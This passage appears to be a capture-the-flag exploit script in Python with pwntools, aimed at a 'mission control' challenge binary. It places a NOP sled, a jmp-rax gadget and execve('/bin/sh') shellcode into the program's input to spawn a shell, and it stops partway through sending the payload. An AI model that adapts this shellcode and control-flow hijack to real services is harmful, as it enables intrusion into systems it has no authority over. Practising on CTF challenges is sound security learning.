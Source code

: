 ```python
def conn():
    if args.REMOTE:
        r = remote("addr", 1337)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r



nop = lambda n : b'\x90' * n

def main():
    r = conn()

    # gadget from God
    jmp_rax = 0x4011ae

    # shellcode catching net
    shellcode_catch = nop(20) 

    # shellcode jump to execve
    shellcode_jmp    = asm("""
                           sub rax, 0x2d4 - 8;
                           jmp rax;
                           """)

    # shellcode execve
    shellcode_execve = asm("""
                           mov rdi, rax;
                           add rdi, 50;
                           xor rsi, rsi;
                           xor rdx, rdx;
                           mov rax, 59
                           syscall;
                           """).ljust(50, b'\x90') + b'/bin/sh\0'


    #print(shellcode_jmp)
    #exit()

    # payload
    # because 8th byte will be replaced with 0, we need to shift the shellcode a little bit 
    payload_jmp = (nop(3) + shellcode_jmp).ljust(20, b'\x90') + p64(jmp_rax)



    # Name doesn't really matter a lot, fill up with nop just in case 
    r.recvuntil(b'Exit mission control')
    r.sendline(b'1')

    r.recvuntil(b"What's the new crew member's callsign: ")
    r.sendline(shellcode_catch)



    # Write shellcode on stack
    r.recvuntil(b'Exit mission control')
    r.sendline(b'2')

    r.recvuntil(b'Which crew member would you like to send a transmission to?')
    r.sendline(b'0')
```